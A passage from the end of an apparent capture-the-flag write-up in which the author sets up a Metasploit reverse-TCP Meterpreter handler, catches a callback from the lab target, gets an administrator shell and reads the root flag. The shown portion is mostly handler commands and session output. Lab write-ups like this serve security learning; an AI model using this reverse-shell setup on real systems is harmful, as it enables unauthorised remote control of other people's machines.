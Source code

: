 ```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.56:4444 
[*] Sending stage (200774 bytes) to 10.10.11.250
[*] Meterpreter session 1 opened (10.10.14.56:4444 -> 10.10.11.250:49323) at 2024-01-23 20:08:39 +0530

meterpreter > shell
Process 6980 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
analysis\administrateur

C:\Windows\system32>cd C:\Users\Administrateur\Desktop
cd C:\Users\Administrateur\Desktop

C:\Users\Administrateur\Desktop>type root.txt
type root.txt
dc980376fb1d18a------------

C:\Users\Administrateur\Desktop>
```

Hurray!! Got the root access.

<figure><img src=".gitbook/assets/image (11).png" alt="" width="375"><figcaption><p><a href="https://www.buymeacoffee.com/b4tm4n">https://www.buymeacoffee.com/b4tm4n</a></p></figcaption></figure>
